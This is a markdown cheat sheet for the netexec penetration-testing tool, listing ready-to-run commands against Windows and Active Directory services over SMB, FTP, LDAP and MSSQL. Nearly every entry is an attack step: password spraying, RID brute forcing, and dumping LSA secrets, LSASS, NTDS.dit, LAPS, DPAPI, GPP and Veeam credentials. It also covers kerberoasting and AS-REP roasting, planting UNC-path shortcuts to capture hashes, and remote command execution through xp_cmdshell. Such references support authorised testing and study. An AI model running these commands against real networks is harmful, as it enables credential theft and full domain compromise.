 ______________________________________________________________________

title: netexec
tags:

- networking
- active-directory

______________________________________________________________________

## netexec

<!-- TOC --><a name="smb"></a>

### smb

#### initial enumeration

```sh
netexec smb target
```

#### null authentication

```sh
netexec smb target -u '' -p ''
```

#### guest authentication

```sh
netexec smb target -u 'guest' -p ''
```

#### list shares

```sh
netexec smb target -u '' -p '' --shares
```

```sh
netexec smb target -u username -p password --shares
```

#### list usernames

```sh
netexec smb target -u '' -p '' --users
```

```sh
netexec smb target -u '' -p '' --rid-brute
```

```sh
netexec smb target -u username -p password --users
```

#### local authentication

```sh
netexec smb target -u username -p password --local-auth
```

#### using kerberos

```sh
netexec smb target -u username -p password -k
```

#### password spray

```sh
netexec smb target -u users.txt -p password --continue-on-success
```

```sh
netexec smb target -u usernames.txt -p passwords.txt --no-bruteforce --continue-on-success
```

```sh
netexec ssh target -u username -p password --continue-on-success
```

#### all in one

```sh
netexec smb target -u username -p password --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol
```

#### spider_plus module

```sh
netexec smb target -u username -p password -M spider_plus
```

```sh
netexec smb target -u username -p password -k --get-file target_file output_file --share sharename
```

#### dump a specific file

```sh
netexec smb target -u username -p password -k --get-file target_file output_file --share sharename
```

#### dump lsa secrets

```sh
netexec smb target -u username -p password --local-auth --lsa
```

#### group policy preferences

```sh
netexec smb target -u username -p password -M gpp_password
```

#### dump laps v1 and v2 password

```sh
netexec smb target -u username -p password --laps
```

#### dump dpapi credentials

```sh
netexec smb target -u username -p password --laps --dpapi
```

#### dump ntds.dit

```sh
netexec smb target -u username -p password --ntds
```

#### webdav - checks whether the webclient service is running on the target

```sh
netexec smb ip -u username -p password -M webdav 
```

#### veeam - extracts credentials from local veeam sql database

```sh
netexec smb target -u username -p password -M veeam
```

#### slinky - creates windows shortcuts with the icon attribute containing a UNC path to the specified SMB server in all shares with write permissions

```sh
netexec smb ip -u username -p password -M slinky 
```

#### ntdsutil - dump ntds with ntdsutil

```sh
netexec smb ip -u username -p password -M ntdsutil
```

#### dump lsass

```sh
netexec smb target -u username -p password -M lsassy
```

#### retrieve msol account password

```sh
netexec smb target -u username -p password -M msol
```

<!-- TOC --><a name="ftp"></a>

### ftp

#### list folders and files

```sh
netexec ftp target -u username -p password --ls
```

#### list files inside a folder

```sh
netexec ftp target -u username -p password --ls folder_name
```

#### retrieve a specific file

```sh
netexec ftp target -u username -p password --ls folder_name --get file_name
```

<!-- TOC --><a name="ldap"></a>

### ldap

#### enumerate users using ldap

```sh
netexec ldap target -u '' -p '' --users
```

#### all in one

```sh
netexec ldap target -u username -p password --trusted-for-delegation  --password-not-required --admin-count --users --groups
```

#### kerberoast

```sh
netexec ldap target -u username -p password --kerberoasting kerb.txt
```

#### asreproast

```sh
netexec ldap target -u username -p password --asreproast asrep.txt
```

#### gmsa

```sh
netexec ldap target -u username -p password --gmsa-convert-id id
```

```sh
netexec ldap domain -u username -p password --gmsa-decrypt-lsa gmsa_account
```

#### check the machine account quota

```sh
netexec ldap target -u username -p password -M maq
```

#### adcs enumeration

```sh
netexec ldap target -u username -p password -M adcs
```

<!-- TOC --><a name="bloodhound"></a>

### bloodhound

```sh
netexec ldap target -u username -p password --bloodhound -ns ip --collection All
```

<!-- TOC --><a name="mssql"></a>

### mssql

- authentication

```sh
netexec mssql target -u username -p password
```

#### execute commands using xp_cmdshell

```sh
netexec mssql target -u username -p password -x command_to_execute
```

> -X for powershell and -x for cmd

#### get a file

```sh
netexec mssql target -u username -p password --get-file output_file target_file
```

source: https://github.com/seriotonctf/cme-nxc-cheat-sheet
